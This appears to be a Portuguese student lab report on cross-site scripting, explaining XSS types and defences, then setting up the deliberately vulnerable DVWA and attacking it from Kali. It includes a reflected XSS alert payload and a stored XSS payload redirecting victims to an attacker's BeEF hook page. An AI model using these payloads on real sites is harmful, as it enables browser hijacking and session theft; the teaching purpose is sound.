# PRÁTICA XSS

## Dupla:
Anderson Felipe Costa

Antonio Thiago Costa

## O que é XSS?

O ataque de Cross-site scripting (XSS) consiste em uma vulnerabilidade causada pela falha nas validações dos parâmetros de entrada do usuário e resposta do servidor na aplicação web. Este ataque permite que um código HTML seja inserido no navegador do usuário alvo.

Tecnicamente, este problema ocorre quando um parâmetro de entrada do usuário é apresentado integralmente pelo navegador, como no caso de um código javascript que passa a ser interpretado como parte da aplicação legítima e com acesso a todas as entidades do documento (DOM). Na prática, o responsável pelo ataque executa instruções no navegador da vítima usando um aplicativo web vulnerável, modificando estruturas do documento HTML.
Algumas vezes o atacante não tem como alvo diretamente sua vítima,  pelo contrario ele explora uma vulnerabilidade em um site que o alvo pode visitar com o objetivo de entregar o JavaScript malicioso para ele. No navegador do alvo, o JavaScript malicioso parece ser como parte integrante do site, o que torna o ataque efetivo e quase imperceptível para a vítima.

Podemos considerar um JavaScript como sendo malicioso quando ele consegue acessar informações confidenciais dos usuários, como os cookies ou quando são enviadas requisições HTTP contendo scripts maliciosos que podem usar o XMLHttpRequest. Claro que estes são apenas alguns exemplos, mesmo porque os ataques de XSS permitem uma série de combinações no ataque.

Um bom exemplo é uma aplicação vuneravel é o fórum, em que o usuário tenha permissão para incluir mensagens de sua própria autoria para que os outros usuários possam ler. Se este aplicativo não filtrar corretamente os códigos HTML, um usuário mal intencionado pode injetar instruções para leitura de informações específicas do usuário legítimo, tais como códigos de sessão, e até mesmo executar tarefas específicas como enviar mensagens de maneira arbitrária para o fórum.

## Tipos de XSS

Existem três tipos mais conhecidos são eles:

* XSS Stored que consiste em um código malicioso que pode ser permanentemente armazenado no servidor web/aplicação, como em um banco de dados, fórum, campo de comentários etc. O usuário torna-se vítima ao acessar a área afetada pelo armazenamento do código mal intencionado.Esse tipo de XSS são geralmente mais significativos do que outros, uma vez que um usuário mal intencionado pode potencialmente atingir um grande número usuários apenas com uma ação específica e facilitar o processo de engenharia social. Em alguns casos, o navegador afetado pode até mesmo se comportar como se estivesse infectado por um worm, replicando cópias para cada usuário que execute o código mal intencionado.

* XSS Reflected script é ativado por meio de um link, que envia uma solicitação para um site com uma vulnerabilidade que permite a execução de scripts mal-intencionados. A vulnerabilidade geralmente é resultado de solicitações recebidas sem criptografia, o que permite a manipulação das funções de um aplicativo da Web e a ativação de scripts mal-intencionados. Para distribuir o link malicioso, um criminoso normalmente o incorporam em um site de e-mail ou de terceiros (por exemplo, em uma seção de comentários ou em mídias sociais). O link é incorporado dentro de um texto âncora que faz com que o usuário clique nele, o que inicia a solicitação XSS para um site explorado, refletindo o ataque de volta ao usuário. Ao contrário de um ataque armazenado, em que o autor deve localizar um site que permita a injeção permanente de scripts mal-intencionados, os ataques refletidos exigem apenas que o script mal-intencionado seja incorporado a um link. Sabendo disto, para que o ataque seja bem-sucedido, o usuário precisa clicar no link infectado. Ataques refletidos são mais comuns. Os ataques refletidos não têm o mesmo alcance que os ataques XSS Stored. XSS reflected podem ser evitados por usuários vigilantes. Como pode se ver esse tipo de ataque é executado por meio de engenharia social, convencendo o usuário alvo que a requisição a ser realizada é legítima. As consequencias variam de acordo com a natureza da vulnerabilidade, podendo variar do sequestro de sessões válidas no sistema, roubo de credenciais ou realização de atividades ilicitas em nome do usuário afetado.

* Dom Based XSS: É o tipo mais difícil de ser encontrado entre os três, porque depende de uma das vulnerabilidades em algum dos componentes da página, sendo que o script faz alterações no HTML atual da página através da manipulação do DOM (Document Object Model). Recentemente, o tema TwentyFifteen, que é padrão nas instalações do WordPress, foi alvo desse tipo de vulnerabilidade e deixou milhões de sites vulneráveis.

## Problemas para impedir ataques XSS

Uma das principais dificuldades na prevenção de vulnerabilidades XSS é a codificação adequada de caracteres. Em alguns casos, o servidor da Web ou o aplicativo da Web podem não filtrar algumas codificações de caracteres, portanto, por exemplo, o aplicativo da Web pode filtrar "<script>", mas pode não filtrar% 3cscript% 3e que simplesmente inclui outra codificação de tags.

## Métodos de prevenção

* Encoding e Validation: A função do Encoding é filtrar os dados que o usuário irá inserir para que o navegador o interprete apenas como dado e não como código. Um exemplo clássico é a conversão em HTML, como "<" e ">" em "&lt;" e "&gt;". O objetivo do Validation é filtrar todas as entradas do usuário que podem ser maliciosas para a sua aplicação, e essa será a sua primeira linha de defesa contra os ataques XSS. Essa validação funciona melhor através da prevenção sobre os dados que possuem limites de valores. Um exemplo é uma variável “Int” (inteiro), que não precisa conter códigos HTML.

* Use bibliotecas Anti-XSS: As bibliotecas Anti-XSS fornecem um conjunto de funções que irá facilitar o filtro dos dados para bloquear os 
ataques XSS. algumas delas:

1. Microsoft AntiXSS Library .NET 
2. HTML Purifier  PHP
3. Java Encoder Java

* Utilize o Content Security Policy (CSP): O Content Security Policy é um cabeçalho HTTP que fornece uma whitelist de recursos confiáveis no qual o navegador poderá confiar. Um recurso pode ser um script, CSS, imagem ou outro tipo de arquivo que poderá ser indicado. Isso significa que mesmo se um atacante conseguir injetar um código XSS no seu site, o CSP poderá impedir a sua execução. O único problema atual do CSP é que a interpretação é diferente em alguns navegadores e por isso você terá que fazer um tratamento de qual Header enviar. Usando a flag HttpOnly: O HttpOnly é uma flag adicional que pode ser incluída junto com a opção Set-Cookie. Quando o HttpOnly é usado, o JavaScript não será capaz de ler esse cookie protegido se acontecer a exploração do XSS do lado do cliente. Caso o navegador suporte essa opção, mesmo que a falha de XSS exista e o atacante consiga fazer uma vítima acessar o link que pode explorar a falha, o navegador não irá fornecer os dados do cookie para o atacante. X-XSS-Protection no Header: Este cabeçalho pode ser utilizado para configurar uma proteção no navegador contra ataques XSS Reflected. Atualmente, apenas os navegadores Internet Explorer, Google Chrome e Safari (WebKit) o suportam.

## INSTALAÇÃO DO DVWA E APRESENTAÇÃO DO BEFF

### Servidor APACHE2 - Ubuntu Server
### Atacante - Kali Linux

1. Instalação normal do Ubuntu server, até chegar a Seleção de pacotes, nela selecione LAMP server e OpenSSh server.

####Obs: Caso não for utilizar o Ubuntu Server basta executar

```
sudo apt install lamp-server^ 

sudo apt install openssh-server
```

2. Após o processo de instalação do S.O e o LAMP, exeute o comando abaixo, para remover os pacotes php:

```
sudo apt-get purge `dpkg -l | grep php | awk '{print $2}' | tr "\n" " "`
```


3. Em Seguida, inserir um repositorio de onde sera baixado o php necessario para DVWA e um update:

```
sudo add-apt-repository ppa:ondrej/php
sudo apt update
```


4. Neste passo instale o php5.6 e os modulos necessarios além do unzip com:
```
sudo apt install php5.6 php5.6-gd php5.6-mbstring php5.6-mcrypt php5.6-mysql php5.6-xml unzip
```


5. Inicie o apache:
```
sudo systemctl start apache2
```

6. Ative o módulo do php5.6 no apache:
```
sudo a2enmod php5.6
```


7. Entre na pasta /var/www onde será baixado o pacote DVWA e execute o wget e o unzip:
```
cd /var/www
sudo wget https://github.com/ethicalhack3r/DVWA/archive/master.zip
sudo unzip master.zip -d html
```

8. Agora entre na pasta html e mude o nome da pasta descompactada para facilitar o acesso:
```
cd html
sudo mv html/DVWA-master html/dvwa
```

9. Agora altere a linha com allow_url_include de off para on:
```
sudo vim /etc/php/5.6/apache2/php.ini
```


10. Agora copie o modelo do arquivo config do DVWA executando:
```
sudo cp dvwa/config/config.inc.php.dist dvwa/config/config.inc.php
```

11. Altere o arquivo criado:
```
sudo vim dvwa/config/config.inc.php
```

Obs: Neste arquivo deixe o usuario como root e em db_password insira a senha configurada na instalação, caso não tenha senha, deixe somente '';.

12. Altere também o arquivo xss_s, para poder inserir mais caracteres no campo de comentarios do XSS Stored, necessario para poder escrever o script completo.
```
sudo vim html/dvwa/vulnerabilities/xss_s/index.php
```

Busque por mtxMessage


Altere o proximo numero após maxlenght




13. Reinicie o apache
```
sudo systemctl restart apache2
```

14. Após toda a configuração, vá ao navegador e insira a URL IP-do-servidor/dvwa. Neste ponto a pagina é aberta, após checar todos os pontos necessarios clique em Create / Reset Database:


Tela de login do DVWA - Usuario: admin e senha:password


Após inserir usuario e senha temos a seguinte tela:


Nela temos todas as opções de teste de ataque, nesta pagina clique em DVWA Security para alterar a dificuldade do ataque. Vai estar em impossible, altere para Low e clique em Submit.

## Ataques

### XSS Reflected
Clique em XSS(Reflected) e no campo de texto insira.
```
<script type="text/javascript"> alert('texto'); </script>
```

Devera aparecer esta tela de pop-up com o texto inserido.

### XSS Stored

Para este ataque utilizaremos o Beef xss framework, uma ferramenta de pentest do Kali Linux


1. Abra o beef

Está é a tela inicial do beef, o usuario padrão é beef e a senha igual


2. No DVWA, insira no campo mensagem este código:
```
<script> document.location="http://Seu-IP/demos/butcher/index.html" </script>
```
Este link direciona para uma pagina de teste de ataque XSS pronta. No campo nome coloque qualquer coisa



3. Voltando ao beff, no lado esquerdo da página surge o IP do browser infectado pela pagina.


4. Clicando no IP da vitima recebemos varias opções, podendo o atacante com este acesso fazer outros ataques ao usuario infectado atraves do navegador.

